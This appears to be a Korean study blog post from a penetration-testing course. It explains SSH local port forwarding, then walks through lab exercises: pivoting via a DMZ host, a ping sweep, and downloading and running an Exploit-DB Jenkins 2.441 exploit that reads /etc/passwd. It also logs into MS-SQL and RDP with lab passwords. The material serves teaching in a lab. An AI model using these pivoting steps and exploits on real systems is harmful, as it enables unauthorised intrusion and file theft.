

**☀️<u>공지 사항</u>☀️** 해당 페이지는 `Red Raccoon - PNT` 학습 후 추가적인 개인 공부를 통해 재구성 및 실습한 내용입니다.  필자의 환경에 맞게 공부 및 실습을 진행하여 이 점 참고 바랍니다.
{: .notice--danger}

# Local Port Forwarding
## 개요
로컬 포트 포워딩(Local Port Forwading)은 현재 사용중인 로컬 호스트로 들어오는 네트워크 트래픽을 대상 호스트의 특정 포트로 SSH Tenneling을 통해 전달해주는 기술이다.

-> 쉽게 말해, **사용자/공격자**의 로컬 호스트의 **포트**를 **대상 호스트의 포트**로 포워딩 

보통 방화벽 때문에 대상 호스트의 특정 포트에 접근이 불가능할 때, 다른 종류의 프로토콜을 이용해 해당 포트에 접근하기 위해서 사용된다.

- Local Port Forwarding 을 사용하는 이유
  1. 내부 네트워크나 방화벽 등으로 직접 접근이 불가능한 원격 서버의 특정 포트에 안전하게 접속하기 위해서 로컬 포트에 들어오는 트래픽을 암호화된 SSH 터널을 통해 원격 서버로 전달함으로써, 차단된 서비스에 우회 접근이 가능하다.
  2. 원격에 위치한 데이터베이스, 웹 서비스 등 내부 자원에 로컬 환경에서 편리하게 접근하여 테스트하거나 관리할 때 유용하다. 로컬 포트 포워딩을 설정하면 마치 로컬에서 해당 서비스가 실행되는 것처럼 연결할 수 있다.


## 사용하는 방법


1. SSH 클라이언트에서 로컬 포트 포워딩 설정 명령어를 사용한다. 기본 명령어 구문은 다음과 같다.  

```bash
ssh -L [로컬_IP:]로컬_포트:목적지_IP:목적지_포트 [사용자@]SSH_서버
```

- 로컬_IP는 생략해도 되며 기본으로 로컬호스트(127.0.0.1)에 바인딩된다.  
- 로컬_포트는 로컬 머신에서 열 포트 번호를 의미한다.  
- 목적지_IP와 목적지_포트는 SSH 서버를 통해 접근하고자 하는 원격 호스트와 서비스 포트이다.  


2. 예를 들어 로컬 8888번 포트를 통해 원격 SSH 서버(예: 192.168.53.1)에 접속하여, 해당 서버의 80번 포트(웹서버)에 접근하는 경우 명령어는 다음과 같다.  


```bash
ssh -L 8888:127.0.0.1:80 user@192.168.53.1
```
- 이렇게 하면 로컬 머신에서 `localhost:8888`로 접속 시 원격 서버의 80번 포트로 트래픽이 전달된다.  


3. 연결 후 로컬 브라우저나 애플리케이션에서 `localhost:로컬_포트`로 접속하면 원격 서버의 서비스에 마치 로컬에서 접속하는 것처럼 사용할 수 있다.  


4. 로컬 포트 포워딩은 방화벽으로 막힌 네트워크 내 서비스 접속, 원격 데이터베이스 접근, 원격 웹 테스트 등 다양한 상황에서 활용할 수 있다.


## 실습 1: 대상 호스트의 로컬 호스트 서비스 접근
목표: DMZ망의 10.1.10.10 호스트에는 해당 호스트의 로컬호스트(LOCALHOST)에서만 접근 가능한 127.0.0.1:8080 phpMyAdmin 서비스가 있다. 외부에서 접근 불가한 해당 서비스를 로컬 포트 포워딩을 통해 외부(공격 호스트/칼리)에서 연결

#### 1. 10.1.10.10 Nmap

```bash
┌──(kali㉿kali)-[~/Desktop/PNT]
└─$ nmap -p 22,8080 -Pn 10.1.10.10   
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-01 15:47 KST

PORT     STATE  SERVICE
22/tcp   open   ssh
8080/tcp closed http-proxy
```

스캔 결과 해당 웹 서비스(8080)는 현재 공격자 호스트에서는 `closed` 라고 나오고 있다.
#### 2. SSH Local Port Fowarding
```bash
┌──(kali㉿kali)-[~/Desktop/PNT]
└─$ ssh -L 8080:localhost:8080 ansible@10.1.10.10
[ . . . ]
ansible@web-10-1-10-10:~$ 
```

#### 3. 공격 호스트에서 대상 호스트 접근
- 공격자 칼리 브라우저에서 `localhost:8080`으로 접근 성공 !



## 실습 2:  대상 호스트의 서비스 접근 후 공격
목표: DMZ 호스트 10.1.10.10를 피벗 호스트로 활용해 다른 원격 대상 호스트(10.1.20.50)의 네트워크 서비스에 접근한 뒤 공격


#### 1. DMZ 호스트에서 내부망으로 연결되는 NIC 찾기
장학한 DMZ 호스트 `10.1.10.10`에서 내부망으로 연결되어 있는 NIC을 찾아본다.
```bash
ansible@web-10-1-10-10:~$ ifconfig
[ . . . ]
ens5: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 9001
        inet 10.1.10.10  netmask 255.255.255.0  broadcast 10.1.10.255

ens6: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 9001
        inet 10.1.20.10  netmask 255.255.255.0  broadcast 10.1.20.255
```

명령어 실행 결과 2개의 NIC을 가지고 있는 것을 확인했다. 해당 NIC(ens6) 에 접근이 가능한지 확인하기 위해 `route` 명령어를 사용

```bash
ansible@web-10-1-10-10:~$ route -n
Kernel IP routing table
Destination     Gateway         Genmask         Flags Metric Ref    Use Iface
[ . . . ]
10.1.20.0       0.0.0.0         255.255.255.0   U     200    0        0 ens6
```

#### 2. 해당 내부망의 대상 호스트 찾기
내부망 `10.1.20.0/24`에 접근이 가능한 사실을 알았으니, 내부망 간단한 핑 스캔을 이용해 정보 수집을 추가적으로 진행해준다.
```bash
ansible@web-10-1-10-10:~$ for i in {1..254}; do
  ping -c 1 -W 1 10.1.20.$i | grep "ttl=" && echo "10.1.20.$i is alive"
done
64 bytes from 10.1.20.1: icmp_seq=1 ttl=64 time=0.078 ms
10.1.20.1 is alive
64 bytes from 10.1.20.10: icmp_seq=1 ttl=64 time=0.037 ms
10.1.20.10 is alive
64 bytes from 10.1.20.20: icmp_seq=1 ttl=128 time=0.531 ms
10.1.20.20 is alive
64 bytes from 10.1.20.30: icmp_seq=1 ttl=128 time=0.532 ms
10.1.20.30 is alive
64 bytes from 10.1.20.40: icmp_seq=1 ttl=128 time=0.558 ms
10.1.20.40 is alive
64 bytes from 10.1.20.50: icmp_seq=1 ttl=64 time=0.276 ms
10.1.20.50 is alive
```
- `for i in {1..254}`: IP 주소 마지막 옥텟 1부터 254까지 반복하는 루프
- `ping -c 1 -W 1`: 대상에 1회만 ping 전송, 응답 대기 시간 1초로 제한
- `grep "ttl="`: ping 응답에서 패킷 수신 성공 여부 확인
- `&& echo ...`: ping 성공 시 해당 IP가 활성화(응답중)임을 출력

#### 3. 로컬 포트 포워딩으로 Remote Host 10.1.20.50, Port 8080 서비스 접근하기
`공격자 -> 피벗 호스트(10.1.10.10) -> 대상 호스트(10.1.20.50)` 접근 시도하기, 대상 호스트에서 실행중인 젠킨스(Jenkins) 서비스로 접근 시도.
```bash
└─# ssh -L 8081:10.1.20.50:8080 ansible@10.1.10.10
```

#### 4. Jenkins 2.441 버전 취약점 exploit
[Exploit-DB](https://www.exploit-db.com/exploits/51993)
- wget - exploit download

```bash
┌──(kali㉿kali)-[~/Desktop/PNT]
└─$ wget https://www.exploit-db.com/raw/51993

--2025-09-02 14:05:33--  https://www.exploit-db.com/raw/51993
[  . . . ]
51993                         100%[===================>]   4.43K  --.-KB/s    in 0s       

2025-09-02 14:05:40 (55.6 MB/s) - ‘51993’ saved [4536/4536]
```

- exploit

```bash
┌──(kali㉿kali)-[~/Desktop/PNT]
└─$ python3 51993 -u http://localhost:8081/ -p /../../../../../../../etc/passwd
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
root:x:0:0:root:/root:/bin/bash
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
[ . . . ]
```


### 추가 공부
#### 로컬 포트 포워딩으로 대상 호스트 MS-SQL 서비스에 연결
```bash
└─# ssh -L 1430:10.1.20.40:1433 ansible@10.1.10.10

└─# sqsh -S localhost:1430 -U sa -P 'Password123!'
```

#### 이중 SSH 포트 포워딩을 이용한 다단계 접근
피벗 호스트 A: 10.1.10.10/10.1.20.10 (DMZ/IT) | SSH/22
피벗 호스트 B : 10.1.20.20 (IT/MGMT) | RDP/3389
대상 호스트: 10.1.30.50 | Apache2/80

```bash
└─# ssh -L 1111:10.1.20.20:3389 ansible@10.1.10.10

└─# xfreerdp /v:localhost:1111 /u:rdpuser11 /p:'Password123!'

C:\Users\rdpuser1> ssh -L 8080:10.1.30.50:80 ansible@10.1.30.50
```


```text
# xfreerdp 주요 플래그 목록

- `/v:<서버>`  
  접속 대상 서버 IP 또는 호스트명 지정

- `/u:<사용자이름>`  
  로그인 사용자 이름 지정

- `/p:<비밀번호>`  
  로그인 비밀번호 지정

- `/cert-ignore`  
  인증서 오류 무시하고 접속

- `/clipboard`  
  클립보드 공유 활성화

- `/drive:<로컬드라이브명>:<경로>`  
  로컬 드라이브를 원격에서 공유

- `/compression`  
  데이터 압축 활성화

- `/rfx`  
  RemoteFX 그래픽 가속 활성화

- `/sec:<security>`  
  보안 프로토콜 선택 (예: tls, nla, rdp, kerberos)

- `/cert-tofu`  
  TOFU(Trust On First Use) 인증서 신뢰

- `/log-level:<레벨>`  
  로그 출력 수준 설정 (예: trace, debug, info, warn, error)

- `/async-input`  
  비동기 입력 활성화
```